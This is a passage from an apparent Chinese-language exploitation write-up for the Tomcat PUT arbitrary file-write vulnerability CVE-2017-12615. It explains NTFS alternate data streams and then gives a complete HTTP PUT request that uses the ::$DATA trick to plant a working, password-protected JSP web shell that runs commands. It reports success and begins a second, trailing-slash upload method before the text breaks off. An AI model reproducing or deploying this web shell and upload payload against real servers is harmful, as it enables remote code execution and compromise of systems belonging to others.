 大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流
- 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

    Copy to clipboard<filename>：<stream name>：<stream type>

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型\$
INDEX\_ALLOCATION。\$ INDEX\_ALLOCATION类型（目录流）的默认流名称是\$
I30。（这与\$
DATA流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

    Copy to clipboardDir C：\ Users
    Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
    Dir C：\ Users :: $ INDEX_ALLOCATION

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用DIR命令的/
R选项从命令行观察。

payload:

    PUT /shell.jsp::$DATA HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 662  
    <%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp  
    +"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>

我们利用burpsuite来发送我们的payload

![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId34.png)

可以看到返回响应码201，说明我们上传成功了。我们访问我们jsp脚本试试：

![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId35.png)

看到可以命令执行(我们上传的payload是命令执行的脚本)，我们也可以上传一个jsp的webshell

##### 上传姿势二：

我们知道servlet在识别1.jsp/时会把它当作非jsp文件交给DefaultServlet
来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个webshell)

    PUT /webshell.jsp/ HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 6239  
